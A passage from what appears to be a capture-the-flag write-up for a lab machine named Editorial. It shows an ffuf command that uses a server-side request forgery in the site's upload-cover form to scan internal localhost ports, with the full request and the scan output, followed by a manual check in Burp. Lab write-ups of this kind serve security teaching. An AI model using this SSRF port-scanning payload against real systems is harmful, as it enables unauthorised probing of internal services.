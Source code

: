It finds one open port, 5000:

```

oxdf@hacky$ ffuf -u http://editorial.htb/upload-cover -request ssrf.request -w <( seq 0 65535) -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://editorial.htb/upload-cover
 :: Wordlist         : FUZZ: /dev/fd/63
 :: Header           : Host: editorial.htb
 :: Header           : Content-Type: multipart/form-data; boundary=---------------------------17227051210845347502863409435
 :: Data             : -----------------------------17227051210845347502863409435
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------17227051210845347502863409435
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream
-----------------------------17227051210845347502863409435--
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 95ms]
:: Progress: [65536/65536] :: Job [1/1] :: 216 req/sec :: Duration: [0:04:12] :: Errors: 2 ::

```

I was expecting based on the manual analysis to have to set up a filter based on time, but that doesn’t seem to be the case.

#### Validate

I’ll check out port 5000 manually in Burp Repeater:

![image-20240619140520234](/img/image-20240619140520234.png)

That’s real data.

### API Enumeration

